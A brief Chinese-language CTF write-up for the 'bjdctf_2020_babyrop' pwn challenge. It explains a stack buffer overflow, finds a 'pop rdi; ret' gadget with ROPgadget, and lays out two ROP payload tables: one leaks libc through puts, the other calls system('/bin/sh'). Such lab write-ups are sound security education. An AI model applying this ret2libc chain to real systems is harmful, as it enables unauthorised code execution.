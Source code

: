 # bjdctf_2020_babyrop

![image-20231229193724690](../assets/img/old_imgs/image-20231229193724690.png)

- `64`位泄露`libc`

- `vuln`的`buf`变量存在溢出

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

  ```shell
  bamuwe@qianenzhao:~/done/bjdctf_2020_babyrop$ ROPgadget --binary bjdctf_2020_babyrop --only 'pop|ret'|grep rdi
  0x0000000000400733 : pop rdi ; ret
  ```

  1. 溢出泄露`libc`
  2. 构造`payload`拿到`shell`

| rbp  |           |         |                    |      |
| ---- | --------- | ------- | ------------------ | ---- |
|      | padding   |         |                    | 0x20 |
|      |           | leave   |                    | 0x8  |
|      | pop_rdi   | ret     | 0x0000000000400733 |      |
|      | puts_got  | pop rdi |                    |      |
|      | puts_plt  | ret     |                    |      |
|      | main_addr | ret     |                    |      |

> payload1

| rbp  |          |         |                    |      |
| ---- | -------- | ------- | ------------------ | ---- |
|      | padding  |         |                    | 0x20 |
|      |          | leave   |                    | 0x8  |
|      | pop_rdi  | ret     | 0x0000000000400733 |      |
|      | /bin/sh` | pop rdi |                    |      |
|      | system   | ret     |                    |      |
